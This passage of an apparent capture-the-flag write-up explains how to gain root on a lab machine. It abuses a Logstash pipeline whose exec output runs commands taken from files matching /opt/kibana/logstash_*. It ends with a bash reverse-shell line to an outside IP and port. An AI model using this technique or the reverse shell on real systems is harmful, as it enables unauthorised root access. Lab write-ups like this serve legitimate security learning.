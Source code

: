 ***knowing that the process is running as*** `root`, merely **seeing the sentence "Execute command" here** is enough to **confirm that we're on the right path.**

*So, to understand the mechanics here,* we **searched Google** for **"Logstash configuration"** and found the [official documenation](https://www.elastic.co/guide/en/logstash/current/configuration.html) sufficient.

*to exploit this situation,* we will need to **place a file whose name begins with "logstash_"** in the `/opt/kibana` directory. just as the `input.conf` suggests:

```
input {
    file {
        path => "/opt/kibana/logstash_*"
        start_position => "beginning"
        sincedb_path => "/dev/null"
        stat_interval => "10 second"
        type => "execute"
        mode => "read"
    }
}
```

and **make sure it matches** the `filter.conf` criteria:

```
filter {
    if [type] == "execute" {
        grok {
            match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
        }
    }
}
```

***translating this regular expression,*** our `logstash_` file should contain:

`Ejecutar` + `<whitespace>` + `commando` + `<whitespace>` + `:` + `<whitespace>` + `<command>`

so that **the "commando" argument would get executed** as in `output.conf`:

```
output {
    if [type] == "execute" {
        stdout { codec => json }
        exec {
            command => "%{comando} &"
        }
    }
}
```

***to own this box,*** we would do something like **place a reverse shell in the** `commando` **argument's place** like below:
```
Ejecutar comando : bash -i >& /dev/tcp/10.10.16.9/9000 0>&1
```
